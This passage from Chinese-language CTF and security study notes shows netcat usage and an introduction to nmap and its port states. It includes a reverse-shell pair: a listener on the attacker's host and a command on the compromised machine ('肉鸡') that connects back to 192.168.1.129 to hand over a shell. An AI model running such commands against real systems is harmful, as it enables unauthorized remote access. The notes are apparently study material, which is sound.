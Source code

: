 **我们的主机**

```
nc -vlp 39990
```

**肉鸡**

```
nc -nv -t -c 192.168.1.129 39990
```

![image-20210501122347282](https://c/Users/Administrator/Desktop/md%E7%AC%94%E8%AE%B0%E8%B5%84%E6%96%99/CTF-WEB%E7%AF%87.assets/image-20210501122347282.png)

![image-20210501122435969](https://c/Users/Administrator/Desktop/md%E7%AC%94%E8%AE%B0%E8%B5%84%E6%96%99/CTF-WEB%E7%AF%87.assets/image-20210501122435969.png)

#### 蜜罐

> 作为蜜罐，一直监听39990端口，直到Ctrl+C停止

```
nc -lp 39990 > log.txt   #监听8888端口，并且将日志信息写入log.txt中
```

## nmap

### 简介

Nmap (“Network Mapper(网络映射器)”) 是一款开放源代码的 网络探测和安全审核的工具。它的设计目标是快速地扫描大型网络，当然用它扫描单个 主机也没有问题。Nmap以新颖的方式使用原始IP报文来发现网络上有哪些主机，那些 主机提供什么服务(应用程序名和版本)，那些服务运行在什么操作系统(包括版本信息)， 它们使用什么类型的报文过滤器/防火墙，以及一堆其它功能。虽然Nmap通常用于安全审核， 许多系统管理员和网络管理员也用它来做一些日常的工作，比如查看整个网络的信息， 管理服务升级计划，以及监视主机和服务的运行。

Nmap输出的是扫描目标的列表，以及每个目标的补充信息，至于是哪些信息则依赖于所使用的选项。 “所感兴趣的端口表格”是其中的关键。那张表列出端口号，协议，服务名称和状态。状态可能是 `open`(开放的)，`filtered`(被过滤的)， `closed`(关闭的)，或者`unfiltered`(未被过滤的)。 Open(开放的)意味着目标机器上的应用程序正在该端口监听连接/报文。 `filtered`(被过滤的) 意味着防火墙，过滤器或者其它网络障碍阻止了该端口被访问，Nmap无法得知 它是 `open`(开放的) 还是 `closed`(关闭的)。 `closed`(关闭的) 端口没有应用程序在它上面监听，但是他们随时可能开放。 当端口对Nmap的探测做出响应，但是Nmap无法确定它们是关闭还是开放时，这些端口就被认为是 `unfiltered`(未被过滤的) 如果Nmap报告状态组合 `open|filtered` 和 `closed|filtered`时，那说明Nmap无法确定该端口处于两个状态中的哪一个状态。 当要求进行版本探测时，端口表也可以包含软件的版本信息。当要求进行IP协议扫描时 (`-sO`)，Nmap提供关于所支持的IP协议而不是正在监听的端口的信息。

> **端口状态：**
>
> Open:表示端口处于开放状态
>
> Closed:表示端口处于关闭状态
>
> Filterd:表示端口处于过滤无法收到返回的probe状态
>
> UnFilterd：表示端口收到返回的probe，但是无法确认
>
> Open/UnFilterd: 表示端口处于开放或者是未过滤状态
>
> Closed/UnFilterd：表示端口处于关闭或者未过滤状态

nmap进行探测之前要把域名通过DNS服务器解析为IP地址，我们也可以使用指定的DNS服务器进行解析。使用--dns-servers参数来指定。

### 常用命令
